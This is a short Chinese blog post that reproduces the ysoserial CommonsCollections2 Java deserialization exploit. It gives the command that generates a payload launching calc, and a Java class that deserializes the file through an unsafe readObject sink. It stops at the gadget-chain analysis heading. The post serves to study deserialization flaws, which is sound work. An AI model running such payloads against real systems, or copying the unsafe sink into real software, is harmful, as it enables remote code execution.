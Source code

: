 ```yaml
---
title: "Ysoserial Commonscollections 2"
date: 2020-04-17T10:48:27+08:00
draft: false
tags:
- java
- ysoserial
series:
-
categories:
- 代码审计
---
```


拖延症严重😂

## 复现
JDK8u221，生成反序列化文件

```java
java -jar ysoserial-master-30099844c6-1.jar CommonsCollections2 calc > test.ser
```

构造反序列化点

```java
package com.xxe.run;

import java.io.FileInputStream;
import java.io.ObjectInputStream;

public class CommonsCollections2 {
    public static void main(String[] args) {
        readObject();
    }

    public static void readObject() {
        FileInputStream fis = null;
        try {
            fis = new FileInputStream("web/test.ser");
            ObjectInputStream ois = new ObjectInputStream(fis);
            ois.readObject();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
![image.png](https://y4er.com/img/uploads/20200419221002.png)

## 分析
gadget chain
